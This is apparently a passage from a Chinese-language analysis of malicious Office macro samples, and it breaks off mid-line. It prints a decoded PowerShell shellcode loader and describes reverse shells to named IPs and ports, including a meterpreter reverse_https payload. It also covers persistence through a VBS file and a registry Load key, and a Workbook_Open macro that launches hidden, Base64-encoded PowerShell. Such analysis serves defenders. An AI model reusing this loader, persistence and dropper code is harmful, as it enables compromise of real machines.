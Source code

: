 将宏中的字符串,用Base64解码后,得到内容如下:

```
$1 = '$c = ''[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = 0xbf,0x34,0xff,0xf9,0x18,0xd9,0xeb,0xd9,0x74,[……] ,0xda,0x73,0x5d;$g = 0x1000;if ($z.Length -gt 0x1000)`{`$g = $z.Length`}`;$x=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) `{`$w::memset([IntPtr]($x.ToInt32()+$i), $z[$i], 1)`}`;$w::CreateThread(0,0,$x,0,0,0);for (;;)`{`Start-sleep 60`}`;';$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($1));$2 = "-enc ";if([IntPtr]::Size -eq 8)`{`$3 = $env:SystemRoot + "syswow64WindowsPowerShellv1.0powershell";iex "&amp; $3 $2 $e"`}`else`{`;iex "&amp; powershell $2 $e";`}`
```



将其中的shellcode提取出来进行分析得知,这段shellcode的主要功能是反向连接内网IP 192.168.1.30的4444端口。

[![](https://p3.ssl.qhimg.com/t018d11dfc254d31678.png)](https://p3.ssl.qhimg.com/t018d11dfc254d31678.png)

另一个与上述样本有着类似功能的样本的MD5为:1e39753fd56f17010ac62b1d84b5e650

从文件中提取出来的宏为:

[![](https://p1.ssl.qhimg.com/t0162f93a418f9b92c9.png)](https://p1.ssl.qhimg.com/t0162f93a418f9b92c9.png)

而这四个函数对应的功能分别为

lExecute:

用Powershell下载invoke-shellcode.ps后,通过invoke-shellcode函数调用指定Payload windows/meterpreter/reverse_https 建立反弹shell,反弹的地址为98.100.108.133,端口为443

其中部分代码为:

[![](https://p1.ssl.qhimg.com/t012d8540833e76c92b.png)](https://p1.ssl.qhimg.com/t012d8540833e76c92b.png)

lPersist:

将Powershell建立反弹Shell的功能用VBS实现后,保存在C:UsersPublic10-D.vbs文件中

lReg

新建HKCUSoftwareMicrosoftWindows NTCurrentVersionWindowsLoad注册表,值指定为C:UsersPublic10-D.vbs

lStart

调用C:UsersPublic10-D.vbs

而有时,为了抵抗杀毒软件的追杀,样本通常会进行Base64编码。

MD5:c49ee3fb4897dd1cdab1d0ae4fe55988

下面为提取出来的宏内容,可见代码使用了Base64编码:

· "vba_code": "Sub Workbook_Open() 'VBA arch detect suggested by "T" Dim Command As String Dim str As String Dim exec As String Arch = Environ("PROCESSOR_ARCHITECTURE") windir = Environ("windir") If Arch = "AMD64" Then Command = windir + "syswow64windowspowershellv1.0powershell.exe" Else Command = "powershell.exe" End If str = "nVRtb9tGDP7uX0EIN0BCLEV+aZZYCNDUadZsdZrFbtLNMIazRFvXnO" str = str + "6U08mR4/q/j3I0x/06f9CZFI/PQ/Kh2BOcw3unNb2U8jrLtb"[……]str = str + "TjdLP9Fw==" exec = Command + " -NoP -NonI -W Hidden -Exec Bypass -Comm" exec = exec + "and ""Invoke-Expression $(New-Object IO.StreamRea" exec = exec + "

